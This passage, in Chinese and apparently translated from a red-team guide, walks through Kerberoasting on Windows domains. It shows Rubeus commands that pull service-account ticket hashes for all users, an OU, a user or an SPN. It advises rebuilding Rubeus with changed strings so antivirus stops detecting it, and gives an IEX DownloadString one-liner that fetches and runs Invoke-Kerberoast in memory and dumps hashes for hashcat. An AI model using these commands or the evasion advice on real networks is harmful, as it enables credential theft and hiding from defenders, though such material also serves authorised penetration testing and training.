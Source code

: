 ## 开发

要获得 Rubeus，您实际上需要 Visual Studio 2017 或任何可以编译的东西.NET。就我而言，我使用 Visual Studio 并自己构建一个程序集。幸运的是，目前 Rubeus 的默认版本仅被 Virus Total 上的一个 AV 供应商检测到，但是如果您的 AV 被标记，只需更改一些字符串和注释并重建项目，您的 AV 就会关闭。这就是开源 C# / .NET 项目的优点，更容易绕过防病毒解决方案。  
没有程序集/exe 的武装，我们可以简单地将其放在域用户上下文中的目标加入域计算机上并开始 Roasting。  
Rubeus Github 对它的所有功能以及它针对特定目标的能力 OU's Users 等等都有一个令人惊奇的解释，所以我会尽量不逐字复制它，而只是展示它的功能。  
首先我们可以尝试烤当前域中的所有用户

```plain
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast
```

Kerberoast 特定 OU 中的所有用户（如果组织在特定 OU 中拥有所有服务帐户，则很好）  
PS C:\\Users\\m0chan\\Desktop > .\\Rubeus kerberoast /ou:OU=SerivceAcc,DC=m0chanAD,DC=local  
这可能会生成大量输出，因此我们可以将所有哈希值输出到文件中，以便于管理和破解。  
/outfile:C:\\Temp\\TotallyNotHashes.txt  
测试特定用户或 SPN

```plain
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /user:mssqlservice
PS C:\Users\m0chan\Desktop > .\Rubeus kerberoast /spn:MSSQLSvc/SQL.m0chanAD.local
```

如果信任关系允许，您还可以在外部信任域中烤用户，但您可以查看 Rubeus Repo 以获取对此的完整说明。这个真的很酷。

## 调用-Kerberoast.ps1

我将在 Windows 部分讨论的最后一个脚本 Invoke-Kerberoast.ps1 远没有那么强大 Rubeus，Powerview 因此我不会像前面的部分那样将其分为枚举/利用。  
Invoke-Kerberoast.ps1。可以使用以下命令调用并执行 one-liner

```plain
PS C:\Temp > IEX(new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1");Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```

# Download Invoke-Kerberoast.ps1 into Memory (AMSI May Flag)

IEX(new-object Net.WebClient).DownloadString("[https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module\_source/credentials/Invoke-Kerberoast.ps1](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1)")

# Invoke-Kerberoast and Output to Hashcat Format

```plain
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```

## 从 Linux
